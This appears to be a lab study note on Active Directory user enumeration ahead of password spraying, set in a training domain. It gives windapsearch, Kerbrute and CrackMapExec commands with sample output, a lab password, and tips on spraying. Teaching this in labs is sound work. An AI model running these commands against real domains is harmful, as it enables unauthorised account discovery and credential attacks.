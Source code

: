 
## Example: windapsearch (LDAP Anonymous Bind)
```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
**Sample Output:**
```
[+] Enumerating all AD users
[+] Found 2906 users:
cn: Guest
userPrincipalName: htb-student@inlanefreight.local
...
```

---

## Example: Kerbrute (Kerberos Pre-Auth)
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
**Sample Output:**
```
[+] VALID USERNAME: jjones@inlanefreight.local
[+] VALID USERNAME: sbrown@inlanefreight.local
...
```

**Extracting Valid Usernames from Kerbrute Output:**
After running Kerbrute, you can quickly build a wordlist of valid usernames with:
```bash
grep "VALID USERNAME:" kerbrute_output.txt | awk '{print $NF}' | cut -d'@' -f1 >> valid_users.txt
```
This command filters Kerbrute's output and appends the usernames (without domain) to `valid_users.txt`.

---

## Example: CrackMapExec (Credentialed)
```bash
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
**Sample Output:**
```
INLANEFREIGHT.LOCAL\administrator  badpwdcount: 1 baddpwdtime: ...
INLANEFREIGHT.LOCAL\guest          badpwdcount: 0 baddpwdtime: ...
...
```

---

## Best Practices
- Always consider the domain password policy before spraying.
- Clean and deduplicate user lists; filter out disabled or locked accounts if possible.
- Log all spray attempts: users, DC, time, date, passwords tried.
- If policy is unknown, spray with extreme caution (low frequency, long intervals).
- Use OSINT and external sources if internal enumeration is not possible. 
